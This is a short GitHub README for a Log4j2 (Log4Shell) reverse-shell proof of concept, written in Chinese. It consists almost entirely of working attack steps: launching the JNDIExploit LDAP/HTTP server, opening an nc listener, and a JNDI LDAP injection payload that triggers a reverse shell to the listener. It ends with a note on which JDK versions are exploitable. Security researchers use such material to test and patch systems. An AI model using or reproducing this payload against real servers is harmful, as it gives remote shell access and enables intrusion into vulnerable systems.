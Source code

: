 # log4j2-reverseshell-poc

1、使用JNDIExploit启动LDAP与 HTTP  https://github.com/0x727/JNDIExploit

eleven@192 ~> java -jar   JNDIExploit-1.3-SNAPSHOT.jar -i 127.0.0.1
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 3456...


2、nc 开启监听

eleven@192 ~> nc -l 127.0.0.1 8088 -v

 
3、payload：

${jndi:ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/8088}

<img width="941" alt="image" src="https://user-images.githubusercontent.com/21239564/145577752-17e1c9b4-a7ef-4568-9208-e0461d62b3e2.png">

<img width="789" alt="image" src="https://user-images.githubusercontent.com/21239564/145577807-8e978537-00cc-46c5-90ca-afb9544f27ac.png">


当前版本1.8.0_181 ，jdk1.8.191以上默认不支持ldap协议无法复现
